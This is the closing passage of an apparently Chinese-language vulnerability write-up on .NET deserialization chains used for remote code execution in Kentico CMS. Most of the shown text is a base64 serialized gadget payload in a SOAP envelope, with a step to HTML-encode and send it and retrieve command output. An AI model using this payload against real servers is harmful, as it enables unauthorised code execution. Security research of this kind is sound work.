1NjE5MzRlMDg5XV0sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JPgAAAAoJPgAAAAZiAAAAhAFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYWJsZWAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0GYwAAAA1HZXRFbnVtZXJhdG9yCgFHAAAAQwAAAAljAAAACT4AAAAJYgAAAAZmAAAARVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbU3lzdGVtLlR5cGVdIEdldEVudW1lcmF0b3IoKQZnAAAAlAFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYXRvcmAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0gR2V0RW51bWVyYXRvcigpCAAAAAoBSAAAAEIAAAAGaAAAAMACU3lzdGVtLkZ1bmNgMltbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmF0b3JgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uQm9vbGVhbiwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JPgAAAAoJPgAAAAZqAAAAHlN5c3RlbS5Db2xsZWN0aW9ucy5JRW51bWVyYXRvcgZrAAAACE1vdmVOZXh0CgFJAAAAQwAAAAlrAAAACT4AAAAJagAAAAZuAAAAEkJvb2xlYW4gTW92ZU5leHQoKQZvAAAAGVN5c3RlbS5Cb29sZWFuIE1vdmVOZXh0KCkIAAAACgFKAAAAQgAAAAZwAAAAvQJTeXN0ZW0uRnVuY2AyW1tTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYXRvcmAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQk+AAAACgk+AAAABnIAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQZzAAAAC2dldF9DdXJyZW50CgFLAAAAQwAAAAlzAAAACT4AAAAJcgAAAAZ2AAAAGVN5c3RlbS5UeXBlIGdldF9DdXJyZW50KCkGdwAAABlTeXN0ZW0uVHlwZSBnZXRfQ3VycmVudCgpCAAAAAoBTAAAAEIAAAAGeAAAAMYBU3lzdGVtLkZ1bmNgMltbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5PYmplY3QsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dCT4AAAAKCT4AAAAGegAAABBTeXN0ZW0uQWN0aXZhdG9yBnsAAAAOQ3JlYXRlSW5zdGFuY2UKAU0AAABDAAAACXsAAAAJPgAAAAl6AAAABn4AAAApU3lzdGVtLk9iamVjdCBDcmVhdGVJbnN0YW5jZShTeXN0ZW0uVHlwZSkGfwAAAClTeXN0ZW0uT2JqZWN0IENyZWF0ZUluc3RhbmNlKFN5c3RlbS5UeXBlKQgAAAAKAU4AAAAPAAAABoAAAAAmU3lzdGVtLkNvbXBvbmVudE1vZGVsLkRlc2lnbi5Db21tYW5kSUQEAAAACToAAAAQTwAAAAIAAAAJggAAAAgIACAAAASCAAAAC1N5c3RlbS5HdWlkCwAAAAJfYQJfYgJfYwJfZAJfZQJfZgJfZwJfaAJfaQJfagJfawAAAAAAAAAAAAAACAcHAgICAgICAgITE9J07irREYv7AKDJDyb3Cw==</SOAP-ENC:Array>
</SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

html编码之后发送



由此拿到回显。

# 后文

本文介绍了多个链，并分析了Kentico CMS的RCE，通过ActivitySurrogateSelectorFromFile加载自定义程序集拿到执行命令回显。